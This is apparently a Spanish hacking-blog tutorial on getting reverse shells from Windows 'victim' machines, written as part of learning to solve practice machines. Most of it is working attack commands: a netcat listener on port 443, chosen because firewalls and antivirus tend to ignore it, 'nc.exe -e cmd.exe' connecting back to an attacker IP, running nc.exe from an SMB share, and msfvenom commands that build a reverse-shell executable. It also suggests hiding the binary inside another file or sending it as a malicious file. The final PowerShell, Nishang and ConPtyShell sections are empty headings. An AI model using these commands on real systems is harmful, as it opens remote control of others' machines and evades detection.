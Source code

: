 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

![](/assets/images/web-hacking/reverse-shell-windows/)

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor `SMB` y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

Msfvenom no solo es útil cuando nos generamos `shellcodes` para los `Buffer Overflow`, también lo es para `crear binarios que nos ejecuten una shell en Windows`. En concreto, los dos `payloads que nos pueden interesar` (aunque hay más y de muchos tipos) son los siguientes:

```
> msfvenom -l payloads | grep -i 'windows' | grep -i '/shell_reverse'
windows/shell_reverse/tcp                            Connect back to attacker and spawn a command shell
windows/x64/shell_reverse/tcp                        Connect back to attacker and spawn a command shell (Windows x64)
```

Si la máquina víctima es de `32 bits` usaremos el primero y si es de `64` usaremos el segundo.

Con el siguiente comando creamos un `ejecutable` que si lo ejecutamos en la máquina víctima nos mandará una `reverse shell`. Claro, para eso tendremos que `ocultarlo` dentro de otro archivo, pero no me quiero extender mas aquí.

```
> msfvenom -p <payload> LHOST=<ip> LPORT=443 -a x<arquitectura> -f exe -o shell.exe
```

## Powershell Reverse Shell One-Liner

## Nishang

## ConPtyShell
